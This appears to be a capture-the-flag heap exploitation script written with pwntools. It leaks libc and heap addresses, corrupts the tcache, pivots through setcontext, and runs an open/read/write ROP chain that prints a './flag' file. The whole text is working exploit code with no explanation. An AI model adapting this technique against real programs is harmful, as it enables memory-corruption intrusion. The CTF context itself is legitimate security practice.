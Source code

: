 ```python
libc_base = uu64()-0x1ec261
lg("libc_base")

ret = libc_base + 0x0000000000025679
pop_rdi = libc_base + 0x0000000000026b72
pop_rsi = libc_base + 0x0000000000027529
pop_rax = libc_base + 0x000000000004a550
pop_rdx_r12 = libc_base + 0x000000000011c371
syscall_ret = libc_base + 0x0000000000066229

IO_helper = libc_base + 0x1ec8a0
sync = libc_base + 0x1ed500

dele(2)
dele(0)
add(0x1500)
add(0x500,'a'*0x10) # 2
show(2)
ru('a'*0x10)
heap_base = u64(p.recv(6).ljust(8,'\x00')) - 0x290
lg("heap_base")
dele(2)
dele(0)
dele(1)

add(0x30000,p64(heap_base+0x10)) # 0
dele((-0x31000+0x10)/8)

add(0x300,'./flag\x00'.ljust(0x60,'\x00')+p64(ret)) # 0
payload = flat([
    pop_rax,
    2,
    pop_rdi,
    heap_base+0x290+0x10,
    pop_rsi,
    0,
    syscall_ret,
    pop_rdi,
    3,
    pop_rdx_r12,
    0x100,
    0,
    pop_rsi,
    heap_base+0x290+0x20,
    libc_base+libc.sym['read'],
    pop_rdi,
    1,
    libc_base+libc.sym['write']
])
add(0x300,payload) # 1                           #0x120                   #0x220              #0x230    #0x240
add(0x288,'\x00'*0x20+'\x01\x00'*8*6+p64(0)*0x10+p64(heap_base+0x10)*0x10+p64(IO_helper+0xA0)+p64(sync)+p64(heap_base+0x8b0)) # 2
add(0x218,p64(heap_base+0x5a0+0x10)+p64(ret)) # 3
add(0x228,p64(libc_base+libc.sym['setcontext'] + 61)) # 4
add(0x238,p64(0x20)*2) # 5
try:
    add(0x238) # 6
except:
    print(p.recv())
p.interactive()
```
